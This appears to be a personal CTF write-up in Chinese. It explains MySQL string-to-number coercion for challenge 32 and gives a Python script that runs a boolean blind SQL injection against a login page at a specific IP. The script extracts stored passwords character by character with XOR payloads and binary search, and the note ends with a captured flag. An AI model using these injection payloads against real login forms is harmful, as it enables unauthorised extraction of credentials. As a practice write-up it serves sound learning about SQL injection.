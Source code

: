 # 32都过滤了
    字符串与数字比较会变成0
    在MySQL中，如果你尝试执行 `'admin' - 0`，MySQL会将字符串 `'admin'` 转换为数字。由于 `'admin'` 不是一个有效的数字字符串，MySQL会将其转换为0。因此，`'admin' - 0` 的结果是0
一会儿再做一遍
```python
import requests
# 目标 URL
url = "http://114.67.175.224:12077/login.php"
flag=''
for i in range(1,250):
        left=32
        right=128
        mid=(left+right)//2
        while(left<right):   payload="admin'^((ascii(mid((select(group_concat(passwd)))from(%s)))>%s))^'1"%(i,mid)
                data = {'uname': payload,
                        "passwd": "adadada"}
                res = requests.post(url, data=data)
                #print(res.text)
                if 'password' in res.text:
                        left=mid+1
                else:
                        right=mid
                mid=(left+right)//2
        if(mid==32 or mid==127):
                break
        print(mid)
        #flag=flag+chr(mid)
        print(flag)
```


必须要在url后面加上login.php

# 33实时监控

执行

flag{680ef09599e011960603ca7c422e3b9a}flag{680ef09599e011960603ca7c422e3b9a}